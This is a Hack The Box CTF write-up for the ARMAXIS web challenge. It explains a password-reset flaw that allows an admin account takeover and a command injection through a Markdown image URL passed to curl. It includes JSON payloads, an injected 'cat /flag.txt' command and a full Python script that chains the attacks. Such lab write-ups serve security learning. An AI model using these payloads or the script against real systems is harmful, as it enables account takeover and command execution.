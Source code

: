 ```yaml
---
date:
  created: 2025-08-06
categories:
  - CTF Writeup
  - Hackthebox
  - Web Application Penetration Testing
  - Command Injection
authors:
  - dibsy
---
```


# HTB ARMAXIS Writeup
### Summary

The application was vulnerable to a logical flaw in the password reset mechanism that allowed unauthorized password resets. By exploiting this flaw, we reset the **admin** user's password. This privilege escalation allowed access to an admin-only weapon dispatch feature, which included a command injection vulnerability via unsanitized `curl` execution in Markdown parsing. Combining both vulnerabilities led to command execution and flag retrieval.

<!-- more -->

### Part 1: Logical Flaw in Password Reset

The `/reset-password` endpoint takes a token, new password, and email:

```js
router.post("/reset-password", async (req, res) => {
  const { token, newPassword, email } = req.body;
  if (!token || !newPassword || !email)
    return res.status(400).send("Token, email, and new password are required.");

  try {
    const reset = await getPasswordReset(token);
    if (!reset) return res.status(400).send("Invalid or expired token.");

    const user = await getUserByEmail(email);
    if (!user) return res.status(404).send("User not found.");

    await updateUserPassword(user.id, newPassword);
    await deletePasswordReset(token);

    res.send("Password reset successful.");
  } catch (err) {
    console.error("Error resetting password:", err);
    res.status(500).send("Error resetting password.");
  }
});
```

And the `getPasswordReset()` logic:

```js
async function getPasswordReset(token) {
  const query = `SELECT * FROM password_resets WHERE token = ? AND expires_at > ?`;
  const reset = await get(query, [token, Date.now()]);
  return reset;
}
```

🚨 **Vulnerability:** The reset token is **not linked to any user**. Any valid token in the table can be used to reset the password of **any user** by supplying a matching email.

### Exploitation Steps

1. Register a user with your own email.
2. Request a password reset — get your token.
3. Discover admin email: `admin@armaxis.htb` (from source code).
4. Submit the token and set a new password for the admin:
    ```json
    {
      "token": "<your_token>",
      "newPassword": "newadmin123",
      "email": "admin@armaxis.htb"
    }
    ```

✅ You can now log in as admin.

---

### Part 2: Command Injection in Markdown Image Parser

The `/weapons/dispatch` route is **admin-only**, and takes a Markdown `note`:

```js
router.post("/weapons/dispatch", authenticate, async (req, res) => {
  const { role } = req.user;
  if (role !== "admin") return res.status(403).send("Access denied.");

  const parsedNote = parseMarkdown(note);
  await dispatchWeapon(name, price, parsedNote, dispatched_to);

  res.send("Weapon dispatched successfully.");
});
```

#### Vulnerable Markdown Parser

```js
function parseMarkdown(content) {
  if (!content) return '';
  return md.render(
    content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
      try {
        const fileContent = execSync(`curl -s ${url}`);
        const base64Content = Buffer.from(fileContent).toString('base64');
        return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
      } catch (err) {
        return `<p>Error loading image: ${url}</p>`;
      }
    })
  );
}
```

🚨 **Vulnerability:** The URL inside Markdown image `![alt](url)` is passed **unsanitized** to `curl`, leading to **command injection**.

---

### Exploiting the Vulnerability

To read `/flag.txt`, we inject a command in the image markdown:

```json
{
  "name": "a",
  "price": 1,
  "note": "![logo](http://127.0.0.1;cat /flag.txt)",
  "dispatched_to": "admin@armaxis.htb"
}
```

✅ The result of the `cat /flag.txt` command gets embedded in the `src` of the generated image as base64.

You can decode it to get the flag:

```
<img src="data:image/*;base64,SE...==" />
```

Which gives:

```
HTB{m4rkd0wn.........}
```

---

### Conclusion

Two chained vulnerabilities:

- A **logic flaw** in the password reset flow.
- A **command injection** via image Markdown processing.

Together, they allowed privilege escalation and remote command execution, leading to full compromise of the application.

### Automation
```python
import requests
import random
import string
from bs4 import BeautifulSoup
import re
import base64

def generate_random_string(length=12):
    chars = string.ascii_letters + string.digits
    return ''.join(random.choices(chars, k=6))

email = "test@email.htb"
username = generate_random_string()
password = generate_random_string()

proxies = {
    "http":"127.0.0.1:8080"
}

target = "http://83.136.248.112:41163"
target_mail = "http://83.136.248.112:35824/"
#target = "http://83.136.248.112:32701/"

json_data = {
    "email": email,
    "password": password
}

print(f"Registering with {email}:{password}")
req = requests.post(target+"/register", json=json_data)
print(req.text)

print(f"Requesting a new reset token for the {email}")
req = requests.post(target+"/reset-password/request",json={"email":email})
print(req.text)

print(f"Capturing a token from the mail")
req = requests.get(target_mail)
soup = BeautifulSoup(req.text,'html.parser')
tds = soup.find_all('td')

tokens = []

for td in tds:
    match = re.search(r'\b[a-f0-9]{32}\b',td.text)
    if match:
        token = match.group()
        print(token)
        tokens.append(token)

admin_email = "admin@armaxis.htb"
print(f"Requesting a password reset for {admin_email}")
req = requests.post(target+"/reset-password/request",json={"email":admin_email})
print(req.text)

new_password = generate_random_string()

print(f"Running a password reset for {admin_email} with a new password {new_password}")

for token in tokens:
    req = requests.post(target+"/reset-password/",json={"token":token,"newPassword":new_password,"email":admin_email},proxies=proxies)
    if not "Invalid" in req.text:
        break

print(f"Logging in as admin")
sess = requests.Session()
req = sess.post(target+"/login",json={"email":admin_email,"password":new_password},proxies=proxies)
print(req.text)

print(f"Injecting commands into the /weapons/dispatch")
req = sess.post(target+"/weapons/dispatch",json={"name":"xyz","price":1,"note":"![logo](http://127.0.0.1;cat /flag.txt)","dispatched_to":"admin@armaxis.htb"},proxies=proxies)

print(f"Fetching the flag")
req = sess.get(target+"/weapons")
soup = BeautifulSoup(req.text,'html.parser')
img_tags = soup.find_all('img')
for img_tag in img_tags:
    src = img_tag.get("src","")
    match = re.match(r"^data:image/[^;]+;base64,(.*)", src)
    if match:
        base64_data = match.group(1)
        try:
            temp = base64.b64decode(base64_data)
            print(temp.decode().strip())
        except:
            pass
```
